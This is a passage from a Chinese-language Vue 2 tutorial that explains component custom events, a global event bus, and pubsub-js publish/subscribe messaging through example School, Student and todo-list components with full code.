.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```


### 组件自定义事件

#### 事件绑定

区别于JS的内置事件：


内置事件提供给标签使用，自定义事件提供给组件使用


 实现一个子组件给父组件传递数据：

* School：使用前面提到的porps传递回调函数
* Student：绑定一个自定义事件，自定义事件触发后会执行自定义事件方法。
  * 自定义事件绑定给Student，所以由Student来触发事件
  * 事件触发后调用事件处理方法，这个方法是定义在App中的


App.vue

```vue
<template>
  <div class="app">
    <h1>{{msg}}</h1>
    <!--通过父组件给子组件传递函数类型props实现：子给父传递数据-->
    <School :getSchoolName="getSchoolName"/>
    <!--通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第一种写法，使用@或v-on）-->
    <Student v-on:zhuzhe="getStudentName"/>
    <!--通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第二种写法，使用ref）-->
    <Student ref="student"/>
  </div>
</template>

<script>
import Student from "./components/Student";
import School from "./components/School";

export default {
  name:'App',
  data(){
    return{
      msg:'hello'
    }
  },
  components: {Student,School},
  methods:{
    getSchoolName(name){
      console.log("App组件回调函数getSchoolName被调用，函数getSchoolName收到School组件的name="+name)
    },
    getStudentName(name,...params){
      console.log('Student自定义事件zhuzhe被触发，事件的处理方法getStudentName被调用，name='+name+',params=',params)
    }
  },
  mounted() {
    this.$refs.student.$on('zhuzhe',this.getStudentName)

    //这种写法可以实现延迟绑定事件
    /*setTimeout(()=>{
      this.$refs.student.$on('zhuzhe',this.getStudentName)
    },3000)*/

    //也可以实现事件只触发一次
    //this.$refs.student.$once('zhuzhe',this.getStudentName)
  }
}
</script>

<style>
.app{
  background-color: gainsboro;
  padding: 5px;
}
</style>
```

School.vue

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
    <button @click="sendSchoolName">点我把学校名给App</button>
  </div>
</template>

<script>
export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  },
  props:['getSchoolName'],
  methods:{
    sendSchoolName(){
      this.getSchoolName(this.name);
    }
  }
}
</script>

<style scoped>
.school {
  background-color: deepskyblue;
  padding: 5px;
}
</style>
```

Student.vue

```vue
<template>
  <div class="student">
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">点我把学生名给App</button>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      name: '菜需捆',
      sex:'男'
    }
  },
  methods:{
    sendStudentName(){//点击事件处理方法
      //触发Student组件实例上的zhuzhe事件
      this.$emit('zhuzhe',this.name,1,2,3);
    }
  }
}
</script>

<style>
.student {
  background-color: antiquewhite;
  padding: 5px;
  margin-top: 30px;
}
</style>
```


#### 事件解绑

事件是在App组件中绑定到Student组件的，激活得在Student组件中，解开绑定也得在Student组件中。


事件被解绑之后，将无法被激活，Vue提供了事件解绑函数`this.$off`可以支持单个解绑、多个解绑、全部解绑的功能。

在Vue实例vm或组件vc被销毁时，子组件及其子组件自定义事件将都被销毁。

App.vue

```vue
<template>
  <div class="app">
    <h1>{{msg}}</h1>
    <!--通过父组件给子组件传递函数类型props实现：子给父传递数据-->
    <School :getSchoolName="getSchoolName"/>
    <!--通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第一种写法，使用@或v-on）-->
    <Student v-on:zhuzhe="getStudentName" @demo="m1"/>
    <!--通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第二种写法，使用ref）-->
    <!--<Student ref="student"/>-->
  </div>
</template>

<script>
import Student from "./components/Student";
import School from "./components/School";

export default {
  name:'App',
  data(){
    return{
      msg:'hello'
    }
  },
  components: {Student,School},
  methods:{
    getSchoolName(name){
      console.log("App组件回调函数getSchoolName被调用，函数getSchoolName收到School组件的name="+name)
    },
    getStudentName(name,...params){
      console.log('Student自定义事件zhuzhe被触发，事件的处理方法getStudentName被调用，name='+name+',params=',params)
    },
    m1(){
      console.log('m1被触发')
    }
  },
  mounted() {
    //动态获取到标识对应的Vue组件，给其绑定事件
    //this.$refs.student.$on('zhuzhe',this.getStudentName)

    //这种写法可以实现延迟绑定事件
    /*setTimeout(()=>{
      this.$refs.student.$on('zhuzhe',this.getStudentName)
    },3000)*/

    //也可以实现事件只触发一次
    //this.$refs.student.$once('zhuzhe',this.getStudentName)
  }
}
</script>

<style>
.app{
  background-color: gainsboro;
  padding: 5px;
}
</style>
```

Student.vue

```vue
<template>
  <div class="student">
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>当前数值：{{number}}</h2>
    <button @click="add">点我+1</button>
    <button @click="sendStudentName">点我把学生名给App</button>
    <button @click="unbind">解绑zhuzhe事件</button>
    <button @click="death">销毁当前Student组件的实例（vc）</button>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      name: '菜需捆',
      sex:'男',
      number:0
    }
  },
  methods:{
    sendStudentName(){//点击事件处理方法
      //触发Student组件实例上的zhuzhe事件
      this.$emit('zhuzhe',this.name,1,2,3);
      this.$emit('demo');
    },
    unbind(){
      //this.$off(['zhuzhe']);//解绑zhuzhe事件（有多个绑定事件，这里只解绑其中一个，不影响其他的调用）
      //this.$off(['zhuzhe','demo'])//解绑多个事件
      this.$off();//解绑全部事件
    },
    death(){
      this.$destroy();//销毁了当前Student组件的实例，销毁后所有Student实例的自定义事件全都不起效
    },
    add(){
      console.log('add被调用了')
      this.number++;
    }
  }
}
</script>

<style>
.student {
  background-color: antiquewhite;
  padding: 5px;
  margin-top: 30px;
}
</style>
```


#### 注意点

自定义事件有两种写法，一种是使用v-on的绑定写法，绑定的方法写在我们的methods中，在methods中的this是App组件实例。

另外一种是在App组件成功挂载时，通过ref获取到Student组件实例，给组件实例绑定一个方法，这一个方法有一个注意点：

* 绑定的是App组件的方法，this是App组件

  

* 绑定的是一个直接方法，this是Student组件（这导致在方法体内没法更新App组件）

  

* 如果一定要在绑定事件过程中定义方法，则可以使用箭头函数（箭头函数没有自己的this，这样方法体内使用this就会往箭头函数外部寻找，而外部的mounted方法的this就是App组件）

  


因为组件支持自定义事件，所以继续使用v-on绑定原生DOM事件时会被识别为自定义事件。


要让原生DOM事件起效不被识别为自定义事件，使用修饰符。


这一个也解释了为什么组件定义HTML标签时，外部要包裹上`<div>`元素，因为像这样点击事件才能识别绑定到组件的div上。如果是一堆不包裹的标签，难道要给每一个都加上点击事件吗？


#### 总结


### 案例：代办事项改为自定义事件

根据前面自定义事件的定义，将所有父传子的方法，更改为自定义事件写法

MyHeader.vue的addTodo

MyFooter.vue的checkAllTodo、clearAllTodo

（这里List的函数是经历了父传子，到List再父传子Item，现不适用）

App.vue改动

原版：


新版给方法定义为v-on。给组件定义事件，事件调用App.vue定义的方法（刚好不用改）


MyHeader.vue更改调用会函数变为激活事件

原版：


新版：


MyFooter.vue

原版：


新版：


### 全局事件总线

#### 概念

```
基于前面的自定义事件实现，可以实现任意组件通信
```

定义一个X组件，和App组件同级，但不是用来展示业务的组件，所以不用在App管辖下。

* 假设有两个业务组件是同级的，需要通信。则A组件往X组件绑定一个自定义事件，自定义事件的处理方法则就定义在A组件中，B组件去触发X组件的事件并传递消息，则消息就会经由X组件事件回调，传递到A组件内部。

  

* 同理，D组件给B组件通信，也可以去触发B组件绑定在X组件中的事件

  

* A和C组件的通信也是如此

  

* X的设计要求
  * 所有的组件都能访问——利用组件原型链，在Vue原型对象中存放
  * 支持自定义事件的方法——定义一个组件，放到Vue原型对象中
    * 绑定自定义事件：$on
    * 解绑自定义事件：$off
    * 触发自定义事件：$emit
  * 

Vue的原型对象提供了$on、$off、$emit命令，本质是提供给VM（Vue实例对象）或VC（VueComponent组件对象）使用的方法。

所以要想在Vue实例对象上定义事件总线功能（在Vue原型对象上增加一个对象属性，该对象能使用$on、$off、$emit），则就是在Vue原型对象上定义一个VM或VC。


#### 用VC实现

> 验证：在Vue原型对象上定义一个VC

main.js 给Vue原型对象放一个属性vc

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'

//关闭vue的生产提示
Vue.config.productionTip=false

//定义一个组件VueComponent
const Demo = Vue.extend({});
//实例化组件对象
const demo = new Demo();
//将组件对象存放到Vue原型对象上
Vue.prototype.vc = demo;

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),
    mounted() {
        console.log('[main.js]:在Vue原型对象上定义了一个组件vc')
    }
})
```

School.vue 给vc绑定事件

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  },
  mounted() {
    console.log('[School.vue]:给Vue原型对象上的vc绑定一个事件showStudent')
    this.vc.$on('showStudent',(data)=>{
      console.log('[School.vue]:showStudent被触发，data=',data)
    })
    console.dir(this.__proto__.__proto__)//在原型链中，VueComponent的原型对象再上一级就是Vue的原型对象
  }
}
</script>

<style scoped>
.school {
  background-color: deepskyblue;
  padding: 5px;
}
</style>
```

Student.vue 触发vc的事件

```vue
<template>
  <div class="student">
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">把学生名给School组件</button>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      name: '菜需捆',
      sex:'男'
    }
  },
  methods:{
    sendStudentName(){
      console.log('[Student.vue]:触发Vue原型对象上的vc属性的事件showStudent，data=',this.name)
      this.vc.$emit('showStudent',this.name);
    }
  }
}
</script>

<style>
.student {
  background-color: antiquewhite;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

效果：


#### 用VM实现

> 验证：在Vue原型对象上定义一个VM

这里我们new的Vue实例就可以直接拿来用。Vue实例往自己原型链上存放自己的实例。不过要在生命周期的特定时间点才行

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'

//关闭vue的生产提示
Vue.config.productionTip=false

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),
    beforeCreate() {
        console.log('实例完全创建前beforeCreate...往原型对象x属性存放Vue实例')
        Vue.prototype.x=this;
    }
})
```

School.vue 绑定事件

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  },
  mounted() {
    console.log('[School.vue]:给Vue原型对象上的x绑定一个事件showStudent')
    this.x.$on('showStudent',(data)=>{
      console.log('[School.vue]:showStudent被触发，data=',data)
    })
    console.dir(this.__proto__.__proto__)//在原型链中，VueComponent的原型对象再上一级就是Vue的原型对象
  }
}
</script>

<style scoped>
.school {
  background-color: deepskyblue;
  padding: 5px;
}
</style>
```

Student.vue 触发事件

```vue
<template>
  <div class="student">
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">把学生名给School组件</button>
  </div>
</template>

<script>
export default {
  name: 'StudentInfo',
  data() {
    return {
      name: '菜需捆',
      sex:'男'
    }
  },
  methods:{
    sendStudentName(){
      console.log('[Student.vue]:触发Vue原型对象上的x属性的事件showStudent，data=',this.name)
      this.x.$emit('showStudent',this.name);
    }
  }
}
</script>

<style>
.student {
  background-color: antiquewhite;
  padding: 5px;
  margin-top: 30px;
}
</style>
```


#### 总结

> 分析

这里使用Vue实例是最佳实现，也不用去新创建一个VC。通常在定义事件总线中，都使用特定命名：


组件往$bus定义事件时，需要注意如果组件销毁了，得把定义的事件给取消绑定

School.vue

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  },
  mounted() {
    console.log('[School.vue]:给Vue原型对象上的$bus绑定一个事件showStudent')
    this.$bus.$on('showStudent',(data)=>{
      console.log('[School.vue]:showStudent被触发，data=',data)
    })
    console.dir(this.__proto__.__proto__)//在原型链中，VueComponent的原型对象再上一级就是Vue的原型对象
  },
  beforeDestroy() {
    this.$bus.$off('showStudent')
  }
}
</script>

<style scoped>
.school {
  background-color: deepskyblue;
  padding: 5px;
}
</style>
```


### 案例：代办事项改为全局事件总线

注意：不是全部组件通信都依赖全局事件总线，像前面提到改造代办事项项目为自定义事件，有一个App组件和Item组件的通信，中间跨了一个List组件，就适合使用这个。

正常情况下还是这样：父传子用props，子传父用props或自定义事件


适用全局事件总线的情况：兄弟组件、爷爷和孙子

* 在main.js中定义全局事件总线$bus

  ```js
  //引入Vue
  import Vue from 'vue'
  //引入App
  import App from './App'
  
  //关闭vue的生产提示
  Vue.config.productionTip=false
  
  //创建Vue实例
  new Vue({
      el:'#app',
      render: h => h(App),//全局的实例都有插件中的data追加值
      beforeCreate() {
          Vue.prototype.$bus = this;//安装全局事件总线
      }
  })
  ```

* App.vue中不用之前的props+回调函数写法，绑定事件总线还有特定事件段的销毁解绑

  ```vue
  <template>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
  
          <MyHeader @addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->
  
          <List :todos="todos" /><!--item操作方法改用全局事件总线v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"-->
  
          <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"/>
        </div>
      </div>
    </div>
  </template>
  
  <script>
  import MyHeader from "@/components/MyHeader";
  import List from "@/components/List";
  import MyFooter from "@/components/MyFooter";
  
  
  export default {
    name:'App',
    components:{MyHeader,List,MyFooter},
    data(){
      return{
        /*todos:[
          {id:'001',title:'吃饭',done:true},
          {id:'002',title:'睡觉',done:false},
          {id:'003',title:'抽烟',done:true}
        ]*/
        todos:JSON.parse(localStorage.getItem('todos'))||[]//如果有本地存储则放入，如果没有则空数组
      }
    },
    methods:{
      //添加一个todo
      addTodo(x){
        console.log("receive(App)...",x)
        this.todos.unshift(x);//往对象数组的头部插入元素
      },
      //选择或取消选择一个todo
      checkTodo(id){
        this.todos.forEach((todo)=>{
          if (todo.id === id)todo.done = !todo.done;//将值取反
        })
      },
      //删除一个todo
      delTodo(id){
        this.todos = this.todos.filter((todo)=>{
          return todo.id != id;
        })
      },
      //全选或全不选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done;
        })
      },
      //清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
          return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
        })
      }
    },
    watch:{
      todos:{
        deep:true,//深度监视，对数组内部的修改都会被监视
        handler(newValue, oldValue){
          localStorage.setItem('todos',JSON.stringify(newValue));//将数据保存覆盖到本地存储
        }
      }
    },
    mounted() {
      //全选或全不选[全局事件总线]
      this.$bus.$on('checkTodo',this.checkTodo);
      //清除所有已经完成的todo[全局事件总线]
      this.$bus.$on('delTodo',this.delTodo);
    },
    beforeDestroy() {
      this.$bus.$off('checkTodo')
      this.$bus.$off('delTodo')
    }
  }
  </script>
  
  <style>
  /*base*/
  body{
    background: #fff;
  }
  .btn{
    display: inline-block;
    padding: 4px 12px;
    margin-bottom: 0;
    font-size: 14px;
    line-height: 20px;
    text-align: center;
    vertical-align: middle;
    cursor: pointer;
    box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
    border-radius: 4px;
  }
  .btn-danger{
    color: #fff;
    background-color: #da4f49;
    border: 1px solid #bd362f;
  }
  .btn-danger:hover{
    color: #fff;
    background-color: #bd362f;
  }
  .btn:focus{
    outline: none;
  }
  .todo-container{
    width: 600px;
    margin: 0 auto;
  }
  .todo-container .todo-wrap{
    padding: 10px;
    border: 1px solid #ddd;
    border-radius: 5px;
  }
  
  </style>
  ```

* 取消List.vue的porps接收和传递

  ```vue
  <template>
    <ul class="todo-main">
      <Item
          v-for="todo of todos"
          :key="todo.id"
          :todo="todo"
      /><!--将App的回调函数传递给Item-->
  <!--    :checkTodo="checkTodo"-->
  <!--    :delTodo="delTodo"-->
    </ul>
  </template>
  
  <script>
  import Item from "@/components/Item";
  
    export default {
      name:'List',
      components: {Item},
      props:['todos']//,'checkTodo','delTodo'
    }
  </script>
  
  <style scoped>
  /*Main*/
  .todo-main{
    margin-left: 0px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding: 0px;
  }
  .todo-empty{
    height: 40px;
    line-height: 40px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding-left: 5px;
    margin-top: 10px;
  }
  </style>
  ```

* Item.vue中触发事件

  ```vue
  <template>
    <li>
      <label>
        <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
        <span>{{todo.title}}</span>
      </label>
      <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    </li>
  </template>
  
  <script>
    export default {
      name:'Item',
      props:['todo'],//声明接收todo对象,'checkTodo','delTodo'
      mounted() {
        console.log(this.todo)
      },
      methods:{
        handleCheck(id){
          //console.log('id=',id)
          //通知App组件将对应的todo对象的done值取反
          //this.checkTodo(id);
          //改用全局事件总线
          this.$bus.$emit('checkTodo',id);
        },
        handleDelete(id){
          if (confirm('确定删除吗?')){
            console.log('del id=',id)
            //this.delTodo(id);
            //改用全局事件总线
            this.$bus.$emit('delTodo',id);
          }
        }
      }
    }
  </script>
  
  <style scoped>
  /*Item*/
  li{
    list-style: none;
    height: 36px;
    line-height: 36px;
    padding: 0 5px;
    border-bottom: 1px solid #ddd;
  }
  
  li label{
    float: left;
    cursor: pointer;
  }
  
  li label li input{
    vertical-align: middle;
    margin-right: 6px;
    position: relative;
    top: -1px;
  }
  
  li button{
    float: right;
    display: none;
    margin-top: 3px;
  }
  
  li:before{
    content: initial;
  }
  
  li:last-child{
    border-bottom: none;
  }
  
  li:hover{
    background-color: #ddd;
  }
  
  li:hover button{
    display: block;
  }
  </style>
  ```

测试效果正常：


### 消息订阅与发布

同样也是用来实现组件通信的一种方式。

* 组件A订阅消息名demo，回调函数test。组件C发布消息名demo，携带数据666。A组件会触发回调test函数，函数获得参数666

  

* 实现消息订阅的方式有很多种，可以使用第三方的库，pubsub.js


#### 安装消息订阅功能

```shell
npm i pubsub-js
```


#### 实现基于发布订阅的组件通信

* 引入模块
* 使用第三方库的函数来进行消息订阅和发布
* 注意使用普通函数无法通过this获取Vue实例
  * 使用Vue自定义函数
  * 使用箭头函数

代码：

School.vue 订阅消息

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ addr }}</h2>
  </div>
</template>

<script>
import pubsub from 'pubsub-js'

export default {
  name: 'SchoolInfo',
  data() {
    return {
      name: '白云大学',
      addr:'广州白云区'
    }
  },
  methods:{
    demo(messageName,data){
      console.log("有人发布了student消息：",data);//在这里定于就不会有this问题
    }
  },
  mounted() {
    //订阅消息
    /*this.pubId = pubsub.subscribe('student',(messageName,data)=> {//消息名、消息体
      console.log('this=',this)//如果想要在这里this获取到Vue实例，就需要上面用箭头函数
      console.log("有人发布了student消息：",data);
    })*/
    this.pubId = pubsub.subscribe('student',this.demo)//或使用Vue自定义函数，就不会有this问题
  },
  beforeDestroy() {
    pubsub.unsubscribe(this.pubId);//取消订阅
  }
}
</script>

<style scoped>
.school {
  background-color: deepskyblue;
  padding: 5px;
}
</style>
```

Student.vue 发布消息

```vue
<template>
  <div class="student">
    <h2>学生名称：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">把学生名给School组件</button>
  </div>
</template>

<script>
import pubsub from "pubsub-js";

export default {
  name: 'StudentInfo',
  data() {
    return {
      name: '菜需捆',
      sex:'男'
    }
  },
  methods:{
    sendStudentName(){
      pubsub.publish('student',666)
    }
  }
}
</script>

<style>
.student {
  background-color: antiquewhite;
  padding: 5px;
  margin-top: 30px;
}
</style>
```


### 案例：代办事项改为消息发布订阅

这里将之前的Item删除功能：App组件绑定了delTodo事件回调delTodo函数。Item触发事件传递id，App组件收到事件传递的id执行回调函数删除TodoList中的指定数据。

更改为发布订阅功能：

* 消息订阅方：App组件，因为订阅要收到消息后回调处理，App组件就是收到才做删除动作
* 消息发布方：Item组件，因为执行删除动作是在Item组件中开始的。

App.vue 订阅消息

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader @addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" /><!--item操作方法改用全局事件总线v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"-->

        <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import pubsub from "pubsub-js";
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      /*todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]*/
      todos:JSON.parse(localStorage.getItem('todos'))||[]//如果有本地存储则放入，如果没有则空数组
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    //删除一个todo
    /*delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },*/
    //删除一个todo[消息发布订阅回调，第一个参数无用，用下划线占位]
    delTodo(_,id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },
    //全选或全不选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done;
      })
    },
    //清除所有已经完成的todo
    clearAllTodo(){
      this.todos = this.todos.filter((todo)=>{
        return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
      })
    }
  },
  watch:{
    todos:{
      deep:true,//深度监视，对数组内部的修改都会被监视
      handler(newValue, oldValue){
        localStorage.setItem('todos',JSON.stringify(newValue));//将数据保存覆盖到本地存储
      }
    }
  },
  mounted() {
    //全选或全不选[全局事件总线]
    this.$bus.$on('checkTodo',this.checkTodo);
    //清除所有已经完成的todo[全局事件总线]
    //this.$bus.$on('delTodo',this.delTodo);
    //改用消息发布订阅
    this.pubId = pubsub.subscribe('delTodo',this.delTodo)
  },
  beforeDestroy() {
    this.$bus.$off('checkTodo')
    //this.$bus.$off('delTodo')
    //改用消息发布订阅
    pubsub.unsubscribe(this.pubId)//这个订阅消息每次都会生成一个id，取消订阅要用这个id
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

Item.vue 发布消息

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span>{{todo.title}}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
import pubsub from "pubsub-js";

  export default {
    name:'Item',
    props:['todo'],//声明接收todo对象,'checkTodo','delTodo'
    mounted() {
      console.log(this.todo)
    },
    methods:{
      handleCheck(id){
        //console.log('id=',id)
        //通知App组件将对应的todo对象的done值取反
        //this.checkTodo(id);
        //改用全局事件总线
        this.$bus.$emit('checkTodo',id);
      },
      handleDelete(id){
        if (confirm('确定删除吗?')){
          console.log('del id=',id)
          //this.delTodo(id);
          //改用全局事件总线
          //this.$bus.$emit('delTodo',id);
          //改用消息发布订阅
          pubsub.publish('delTodo',id);
        }
      }
    }
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}

li:hover{
  background-color: #ddd;
}

li:hover button{
  display: block;
}
</style>
```

实现效果正常：


### 案例：代办事项实现编辑效果

实现一个效果：每一行数据todo，右边有一个编辑按钮，点击后左边的文字变为输入框，输入内容后回车保存。

问题：这里的一个问题，实际开发中我们的数据是来自后台的，所以我们不能直接让数据新增一个isEdit编辑状态值，编辑状态值要和每条数据关联的，所以可以使用$get函数来给每条数据临时插入一个状态，这一个状态只用在当前页面。

在更新完毕后，通过消息总线发送最新的id和title给App组件回调更新

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span v-show="!todo.isEdit">{{ todo.title }}</span>
      <input
          type="text"
          v-show="todo.isEdit"
          :value="todo.title"
          @blur="handleBlur($event,todo)">
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
  </li>
</template>

<script>
import pubsub from "pubsub-js";

export default {
  name: 'Item',
  props: ['todo'],//声明接收todo对象,'checkTodo','delTodo'
  mounted() {
    console.log(this.todo)
  },
  methods: {
    handleCheck(id) {
      //console.log('id=',id)
      //通知App组件将对应的todo对象的done值取反
      //this.checkTodo(id);
      //改用全局事件总线
      this.$bus.$emit('checkTodo', id);
    },
    handleDelete(id) {
      if (confirm('确定删除吗?')) {
        console.log('del id=', id)
        //this.delTodo(id);
        //改用全局事件总线
        //this.$bus.$emit('delTodo',id);
        //改用消息发布订阅
        pubsub.publish('delTodo', id);
      }
    },
    handleEdit(todo) {
      //todo.isEdit = true;
      //用外部添加
      if (todo.hasOwnProperty('isEdit')) {//todo身上有isEdit属性
        console.log('已有isEdit')
        todo.isEdit = true;
      } else {//todo身上没有isEdit，追加进去
        console.log('没有isEdit')
        this.$set(todo, 'isEdit', true)
      }
    },
    //失去焦点回调
    handleBlur(event,todo) {
      todo.isEdit = false;
      //将要改的值通过事件总线发送给App组件
      this.$bus.$emit('editTodo',todo.id,event.target.value);
    }
  }
}
</script>

<style scoped>
/*Item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background-color: #ddd;
}

li:hover button {
  display: block;
}
</style>
```

App.vue

 ```vue
 <template>
   <div id="root">
     <div class="todo-container">
       <div class="todo-wrap">
 
         <MyHeader @addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->
 
         <List :todos="todos" /><!--item操作方法改用全局事件总线v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"-->
 
         <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"/>
       </div>
     </div>
   </div>
 </template>
 
 <script>
 import pubsub from "pubsub-js";
 import MyHeader from "@/components/MyHeader";
 import List from "@/components/List";
 import MyFooter from "@/components/MyFooter";
 
 
 export default {
   name:'App',
   components:{MyHeader,List,MyFooter},
   data(){
     return{
       /*todos:[
         {id:'001',title:'吃饭',done:true},
         {id:'002',title:'睡觉',done:false},
         {id:'003',title:'抽烟',done:true}
       ]*/
       todos:JSON.parse(localStorage.getItem('todos'))||[]//如果有本地存储则放入，如果没有则空数组
     }
   },
   methods:{
     //添加一个todo
     addTodo(x){
       console.log("receive(App)...",x)
       this.todos.unshift(x);//往对象数组的头部插入元素
     },
     //选择或取消选择一个todo
     checkTodo(id){
       this.todos.forEach((todo)=>{
         if (todo.id === id)todo.done = !todo.done;//将值取反
       })
     },
     //删除一个todo
     /*delTodo(id){
       this.todos = this.todos.filter((todo)=>{
         return todo.id != id;
       })
     },*/
     //删除一个todo[消息发布订阅回调，第一个参数无用，用下划线占位]
     delTodo(_,id){
       this.todos = this.todos.filter((todo)=>{
         return todo.id != id;
       })
     },
     //全选或全不选
     checkAllTodo(done){
       this.todos.forEach((todo)=>{
         todo.done = done;
       })
     },
     //清除所有已经完成的todo
     clearAllTodo(){
       this.todos = this.todos.filter((todo)=>{
         return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
       })
     },
     //修改todo
     editTodo(id,title){
       this.todos.forEach((todo)=>{
         if (todo.id === id)todo.title = title;//更新标题
       })
     }
   },
   watch:{
     todos:{
       deep:true,//深度监视，对数组内部的修改都会被监视
       handler(newValue, oldValue){
         localStorage.setItem('todos',JSON.stringify(newValue));//将数据保存覆盖到本地存储
       }
     }
   },
   mounted() {
     //全选或全不选[全局事件总线]
     this.$bus.$on('checkTodo',this.checkTodo);
     //清除所有已经完成的todo[全局事件总线]
     //this.$bus.$on('delTodo',this.delTodo);
     //改用消息发布订阅
